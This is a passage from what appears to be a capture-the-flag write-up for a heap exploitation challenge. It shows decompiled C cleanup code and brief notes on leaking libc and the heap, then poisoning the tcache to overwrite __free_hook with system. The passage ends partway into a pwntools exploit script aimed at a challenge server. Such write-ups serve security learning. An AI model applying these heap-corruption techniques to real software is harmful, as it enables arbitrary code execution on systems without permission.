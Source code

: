```c
  }
  if ( houseidx )
  {
    for ( i_ = 0; i_ <= 9; ++i_ )
    {
      if ( house_people1[i_] )
      {
        free(house_people1[i_]->person_description);
        free(house_people1[i_]);
        house_people1[i_] = 0LL;
      }
    }
  }
  else
  {
    for ( j_ = 0; j_ <= 9; ++j_ )
    {
      if ( house_people_0[j_] )
      {
        free(house_people_0[j_]->person_description);
        free(house_people_0[j_]);
        house_people_0[j_] = 0LL;
      }
    }
  }
  return puts("\n\nParty is over\nAll people have left\n");
}
```
Keeping this in mind.
Leaking libc was simple knowing above things, With print_house function.
Leaking heap was also simple.
I added an `__free_hook` entry to the tcache_per_thread struct.
using the bug.
Overwrite it with system.
#### exploit.

```py
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

exe = context.binary = ELF('./chall')

host = args.HOST or '35.245.143.0'
port = int(args.PORT or 5555)

def local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv,aslr=False, *a, **kw)

def remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
```